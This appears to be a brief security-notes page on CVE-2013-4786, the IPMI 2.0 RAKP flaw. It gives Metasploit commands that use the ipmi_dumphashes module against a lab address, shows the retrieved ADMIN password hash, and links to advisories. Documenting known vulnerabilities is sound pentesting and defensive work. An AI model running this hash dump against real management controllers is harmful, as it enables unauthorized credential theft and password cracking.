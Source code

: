 ```yaml
---
title : "CVE-2013-4786"
# pre : ' '
description : "The IPMI 2.0 specification supports RMCP+ Authenticated Key-Exchange Protocol (RAKP) authentication, which allows remote attackers to obtain password hashes and conduct offline password guessing attacks by obtaining the HMAC from a RAKP message 2 response from a BMC."
date : 2020-05-06T09:32:00+02:00
# hidden : true
# draft : true
weight : 0
# tags : ['']
---
```


## CVE-2013-4786 - IPMI Password hash retrieval

### Exploit

```plain
msf5 use auxiliary/scanner/ipmi/ipmi_dumphashes
msf5 auxiliary(scanner/ipmi/ipmi_dumphashes) > set rhosts 10.10.10.12
msf5 auxiliary(scanner/ipmi/ipmi_dumphashes) > run
[+] 10.10.10.12:623 - IPMI - Hash found: ADMIN:84eaac57180000006c2ad3df7e0a746f542cf3232b7a3b0ee20f4eff[...]00140541444d494e:361d72b683182e7adf0478d7113f30443988b8d0
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```

### URL list

* [Tenable.com](https://www.tenable.com/cve/CVE-2013-4786)
* [Nvd.nist.gov](https://nvd.nist.gov/vuln/detail/CVE-2013-4786)
